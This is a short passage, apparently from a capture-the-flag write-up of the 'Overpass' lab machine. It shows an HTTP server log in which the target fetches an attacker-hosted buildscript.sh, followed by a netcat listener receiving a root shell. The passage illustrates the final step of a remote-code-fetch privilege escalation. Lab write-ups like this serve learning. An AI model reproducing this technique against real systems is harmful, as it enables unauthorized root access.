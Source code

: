 I can see the HTTP GET request by the Overpass machine to my local machine. 
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.118.191 - - [18/Feb/2022 08:00:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
In the terminal where my netcat listener is set up, I am dropped into a root shell. 
```
root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```


